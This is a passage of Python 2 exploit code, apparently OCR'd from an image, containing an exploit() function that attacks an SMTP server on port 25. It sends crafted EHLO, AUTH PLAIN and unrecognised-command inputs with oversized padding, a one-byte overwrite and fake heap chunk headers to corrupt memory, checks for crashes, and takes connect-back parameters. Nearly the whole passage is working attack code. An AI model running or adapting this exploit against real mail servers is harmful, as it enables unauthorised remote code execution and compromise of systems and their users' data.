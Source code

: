     0xfa: [192,235],
    0xfb: [192,239],
    0xfc: [192,243],
    0xfd: [192,247],
    0xfe: [192,251],
    0xff: [192,254],
    }

    def exploit(b1, b2, b3, rcpt_index, target, cb, cbport):
       global s
       global f

       #if c % 0x50 == 0:
       # print " byte1=0x%02x byte2=0x%02x byte3=0x%02x rcpt_index=0x%02x" % (b1, b2, b3, rcpt_index)

       try:
        connect(target, 25)
       except:
        raise Exception("CONNECTION ERROR")

       banner = f.readline()
       if test:
        print banner.strip("\r").strip("\n")

       ehlo("A" * 8000)

       ehlo("B" * 16)

       unrec("\xff" * 2000)
       ehlo("D" * bufsize)
       one_byte_overwrite()

       fake_header  = p(0)
       fake_header += p(0x1f51)
       res = auth_plain1("E" * 176 + fake_header + "E" * (bufsize-176-len(fake_header)))

       res = ehlo("F" * 16)
       if res == "":
        raise Exception("CRASHED")

       unrec("\xff" * 2000)
       unrec("\xff" * 2000)

       fake_header  = p(0x4110)
       fake_header += p(0x1f50)
       auth_plain("G" * 176 + fake_header + "G" * (bufsize-176-len(fake_header)))

       auth_plain2('A'* (bufsize) + p(0x2021) + chr(b1) + chr(b2) + chr(lookup_table[b3][0]), lookup_table[b3][1])
       res = ehlo("I" * 16)

       if res == "":
        s.close()
        f.close()
        raise Exception("EHLO(I)")
